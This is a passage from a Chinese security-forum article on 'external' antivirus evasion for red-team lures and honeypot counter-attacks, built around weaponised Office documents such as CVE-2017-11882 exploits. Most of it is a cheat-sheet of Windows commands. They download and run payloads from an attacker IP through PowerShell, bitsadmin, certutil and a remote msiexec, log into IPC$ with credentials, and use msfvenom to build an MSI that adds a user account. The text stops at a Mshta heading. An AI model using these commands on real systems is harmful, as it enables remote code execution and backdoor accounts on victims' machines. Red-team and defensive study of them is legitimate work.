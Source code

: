 

# Windows "外置"免杀思路 - 先知社区

Windows "外置"免杀思路

- - -

## Windows "置外"免杀应用

  红队或真实案件，经常以文件构造诱饵，如精心构造 cve-2017-11882，以达到突破外网。同理可以反制，中高交互蜜罐中可部署大量文档类型 exp，填充 Shellcode 执行反制。  
  Windows 下可执行文件，包含 word/chm/iqy/sql 等，从 APT 思维出发，杀伤链武器构造/载荷投递环节利用和反制。

### 环境&CMD 远控

```plain
1. 010 工具 (windows16 进制修改)，Nodepad(记事本) 也是可以解析 rtf 格式。
2. Windows 平台&符合 CVE 适用的 Office 版本。
3. Exp 可以执行 Cmd 命令，Cmd 下载执行回连几种常用技术分享。
```

#### Powershell

```plain
cmd.exe /c "powershell(new-object System.Net.WebClient).
DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')"
```

#### Bitsadmin

```plain
cmd.exe /c "bitsadmin /transfer n http://192.168.28.128/imag/evil.txt %tmp%\1.exe  & %tmp%\1.exe"
```

#### Certutil

```plain
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
```

#### Ipc

```plain
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
```

#### Msfvenom

```plain
1. 利用 msf 生成 msi 包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
2. cmd 执行 - 可回连
msiexec /q /i http://192.168.28.128/evil.msi
```

#### Mshta
